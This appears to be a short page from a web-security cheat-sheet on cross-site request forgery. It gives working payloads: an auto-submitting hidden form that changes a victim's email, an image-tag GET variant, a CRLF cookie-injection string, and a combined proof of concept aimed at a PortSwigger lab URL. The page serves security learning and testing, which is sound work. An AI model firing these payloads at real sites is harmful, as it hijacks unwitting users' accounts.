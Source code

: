 ```yaml
---
title: "CSRF"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



- Free Poc Tool : 
https://security.love/CSRF-PoC-Genorator/

## Basic CSRF 

```sh
<html> 
<body> 
<form action="https://vulnerable-website.com/email/change" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> 
<script> document.forms[0].submit(); </script> 
</body> 
</html>
```

- Even possible to do so : 

```sh
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

- If you have an input that is reflected as cookie , you can try to do CRLF attack to inject a cookie to the victim like this : 
```sh
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

- It's possible to combine to request this way for your POC : 
```sh
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hopddde2&#64;test&#46;fr" />
      <input type="hidden" name="csrf" value="rw096v1qAyqMjnPQNuFoOTr9WovKHmtn" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6b00eb049ba97a82a8f11d00dc00ea.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=j2VuedM3I17WVZZSmL1VSsrL2LsUqZv9%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>


```